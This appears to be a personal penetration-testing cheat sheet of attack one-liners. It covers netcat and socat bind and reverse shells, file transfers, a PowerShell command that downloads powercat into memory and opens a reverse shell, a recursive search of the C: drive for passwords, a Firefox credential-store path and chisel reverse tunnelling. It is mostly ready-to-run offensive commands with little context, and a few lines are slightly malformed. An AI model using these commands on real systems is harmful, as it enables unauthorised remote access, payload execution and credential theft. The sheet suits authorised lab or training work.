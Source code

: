 # netcat
#### file transfer
target machine
`nc -nlvp 9001 > incoming.exe`
local machine
`nc -nv IP.ADDR 9001 < EXAMPLE.exe`
(note: no output, must guess when upload complete)

#### bind shell
target
`nc -lnvp 9001 -e cmd.exe`
local
`nc -nv IP.ADDR 9001`

#### reverse shell
target
`nc -nv IP.ADDR 9001 -e /bin/bash`
local
`nc -lnvp 9001`

# socat
#### connecting
`socat - TCP4:10.11.0.22:110`

#### listener
host
`sudo socat TCP4-LISTEN:443 STDOUT`
local
`socat - TCP4:10.11.0.22:443`

#### file transfer
host
`sudo socat TCP4-LISTEN:443,fork file:EXAMPLE.txt`
local
`socat TCP4:10.11.0.4:443 file:EXAMPLE_NAME.txt,create`

#### reverse shell
local
`sudo socat -d -d TCP4-LISTEN:443 STDOUT`
target
`socat TCP4:10.11.0.22:443 EXEC:/bin/bash`

#### encrypted bind shells
create self-signed certificate
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
# windows
## one-liners
#### dir and file
list all files current dir
`get-childitem -hidden` 

search C:\ for password
`ci -recurse C:\ | % { select-string -path $_ -pattern password} 2>$null`

base64
`certutil -encone/-decode <FILE> <OUTFILE>`

#### network file transfers
smb setup on nix
`$ sudo ./smbserver.py tools $(pwd) -smb2support -user dials -password password1`

create cred object
```
> $pass = convertto-securestring 'password1' -AsPlainText -Force`
> $cred = New-Object System.Management.Automation.PSCredential('dials', $pass)
> New-PSDrive -Name dials -PSProvider FileSystem -Credential $cred -Root \\10.10.14.52\tools
cd dials:
```

download file
`(New-Object System.Net.Webclient).DownloadFile("http://<IP>:<PORT>/<FILENAME>.exe","C:\<FILENAME>.exe")`

download a file and execute from memory with powercat
`IEX(New-Object System.Net.Webclient).DownloadString('http://10.1.1.1:8000/powercat.ps1');powercat -c 10.1.1.1 -p 8001 -e powershell.exe`

## smb
localhost
`sudo ./smbserver.py tools $(pwd) -smb2support -user dials -password password1

``` 
$pass = convertto-securestring 'password1' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('dials', $pass)
New-PSDrive -Name dials -PSProvider FileSystem -Credential $cred -Root \\10.10.14.52\tools
cd dials:
```

## credentials
```
C:\Users\clara\AppData\Roaming\Mozilla\Firefox\Profiles\ljftf853.default-release\key4.db
```
sharpweb?
python cracker?

## file transfer



## chisel
*nix local
`./chisel server --reverse -p 9001`

win remote
`./chisel.exe client <IP.ADDR>:9001 R:<PORT_TO_FWD>:LOCALHOST:<PORT_TO_FWD>`
